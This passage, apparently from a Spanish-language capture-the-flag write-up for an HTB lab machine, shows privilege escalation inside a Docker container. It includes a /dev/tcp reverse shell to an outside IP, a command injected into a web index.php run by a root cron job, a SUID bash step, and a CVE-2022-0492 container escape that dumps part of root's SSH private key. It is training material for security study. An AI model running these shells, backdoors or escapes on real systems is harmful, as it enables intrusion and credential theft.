 ```shell
/bin/sh -c sleep 45; /bin/bash /opt/heartbeat.sh
sleep 45
ps -eo command
```
```shell
www-data@90c7f522b842:/$ cat /opt/heartbeat.sh
#!/bin/bash
#Run a site availability check every 10 seconds via cron
checksum=($(/usr/bin/md5sum /var/www/html/backdrop/core/scripts/backdrop.sh))
if [[ $checksum != "70a121c0202a33567101e2330c069b34" ]]; then
	exit
fi
status=$(php /var/www/html/backdrop/core/scripts/backdrop.sh --root /var/www/html/backdrop https://localhost)
grep "Welcome to backdrop.carpediem.htb!" "$status"
if [[ "$?" != 0 ]]; then
	#something went wrong.  restoring from backup.
	cp /root/index.php /var/www/html/backdrop/index.php
fi
```
Pareciera que es un script para montarse el servidor, podemos intentar meter código dentro del archivo index.php para poder mandarnos una conexión.

```shell
www-data@90c7f522b842:/$ echo -e '#!/bin/bash\n\nbash -i >& /dev/tcp/10.10.14.42/443 0>&1' > /dev/shm/shell.sh
www-data@90c7f522b842:/$ chmod +x /dev/shm/shell.sh 
www-data@90c7f522b842:/$ echo 'system("bash /dev/shm/shell.sh");' >> /var/www/html/backdrop/index.php
```
```shell
root@90c7f522b842:/var/www/html/backdrop# whoami
whoami
root
root@90c7f522b842:/var/www/html/backdrop# chmod u+s /bin/bash
chmod u+s /bin/bash
root@90c7f522b842:/var/www/html/backdrop# hostname -I
hostname -I
172.17.0.2 
```
Para la escalada hay una vulnerabilidad docker que podemos abusar de la siguiente manera con ayuda de este [blog](https://unit42.paloaltonetworks.com/cve-2022-0492-cgroups/). Para mayor comodidad nos encontramos con este [script](https://github.com/chenaotian/CVE-2022-0492) que explota automaticamente la vulnerabilidad, así podemos leer la id_rsa del usuario root y pwnear la máquina.

```shell
root@90c7f522b842:/tmp/privesc# ./exp.sh "cat /root/.ssh/id_rsa"
[-] You donot have CAP_SYS_ADMIN, will try
umount: /tmp/testcgroup: target is busy.
[+] Escape Success with unshare!
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABlwAAAAdzc2gtcn
NhAAAAAwEAAQAAAYEAn4XMDVkBUi5Cch7+bhxOLQzqofUIElWw6wNQ2MNZIi3QTUYE0cSn
rCrrVSGKt1BRWrXlNjanoGJGvfENm02L+Dm9dUPbFaJjcFBG80DjrWsVfkCYSwe3g9KjCk
kqXrHXtapCgERNCga82snoEgYN3z9vmsrw/nd2D6OVsQxkIck7bzC2+p2EinjhaY9BVtO0
UVkcDrMBvRq64JOkHHktYEBF95SDRHav1JW6M/wY6lan18Zfrc2x0c+Ktavpp6KwHVXOcJ
<SNIP>
-----END OPENSSH PRIVATE KEY-----
```

